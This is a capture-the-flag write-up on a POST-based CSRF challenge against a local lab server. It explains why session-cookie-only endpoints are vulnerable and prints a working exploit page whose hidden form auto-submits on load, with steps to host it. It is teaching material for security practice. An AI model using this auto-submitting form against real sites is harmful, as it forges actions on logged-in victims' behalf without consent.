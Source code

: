 ## 🧨 Challenge: POST-based CSRF Attack

### 📜 Description

The challenge builds on the previous level, which required crafting a GET-based CSRF exploit. This time, the goal is to perform a **CSRF attack using a POST request** against a vulnerable server (`challenge.localhost`). JavaScript **cannot send cross-origin requests** due to the Same-Origin Policy (SOP), but browsers **can still submit HTML forms cross-origin**, and cookies will be included automatically — which is the vulnerability we exploit here.

### 🎯 Goal

Trigger a POST request to the vulnerable endpoint (e.g., `/post` or `/publish`) with valid form data on behalf of an authenticated user, **without their interaction**.

---

## 🧪 Vulnerability Explanation

* The server **does not implement CSRF protection**, like anti-CSRF tokens.
* The POST route (e.g., `/post`, `/publish`, `/update`) **uses only session cookies** to authenticate the request.
* Since the victim is logged in, their browser will **include the session cookie** in a cross-origin form submission.
* Browsers **do not block form submissions** from foreign origins; they only prevent **reading** the response (SOP).
* We exploit this by building a form that submits automatically using JavaScript.

---

## ⚙️ Exploit Code (`index.html`)

```html
<!DOCTYPE html>
<html>
  <body>
    <form id="csrfForm" action="http://challenge.localhost/post" method="POST">
      <input type="hidden" name="content" value="CSRF Attack! 🐍 pwn.college{csrf_flag}">
    </form>

    <script>
      // Automatically submit the form on page load
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

> ☑️ This HTML file must be named `index.html` to load automatically when `http://hacker.localhost:1337/` is visited.

---

## 🧰 Exploitation Steps

1. **Host the exploit**:

   ```bash
   python3 -m http.server 1337
   ```

2. **Place `index.html`** in the same directory as the web server.

3. **Visit** `http://hacker.localhost:1337` **in the same browser** where you’re already logged in as a victim on `http://challenge.localhost`.

4. **Observe** the result (e.g., a new post was created, or a change was made).

---

## ✅ Why It Works

* `<form method="POST">` submissions **bypass SOP** restrictions.
* The victim’s browser **automatically attaches cookies** for `challenge.localhost`.
* JavaScript on the attacker’s page **can submit the form** — this is **allowed**, because the origin of the request is the form’s action URL, not the script’s.

---

## 🧠 Lessons Learned

* **Forms are dangerous** when not protected by CSRF tokens.
* CSRF can be triggered by auto-submitted forms — no user interaction needed.
* SOP does **not** block sending data — it blocks **reading** the response.

---

## 🏁 Flag

Once the form submission is successful, the server should expose the flag or perform the intended action. If the flag is shown in the response or on the victim’s dashboard, you can retrieve it accordingly.
